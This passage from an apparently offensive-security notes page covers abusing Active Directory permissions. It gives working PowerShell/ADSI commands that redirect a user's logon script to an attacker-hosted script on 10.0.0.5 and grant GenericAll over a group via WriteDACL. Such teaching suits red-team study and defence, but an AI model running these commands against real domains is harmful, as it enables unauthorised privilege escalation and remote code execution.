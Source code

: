 ![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-12-04.png>)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-13-45.png>)

### WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-57.png>)

Which you can of course do through powershell:

```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-29-27.png>)

And you have a `WriteDACL` on that AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-07-16.png>)

...you can give yourself [`GenericAll`](abusing-active-directory-acls-aces.md#genericall-on-group) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-49.png>)

This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```csharp
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
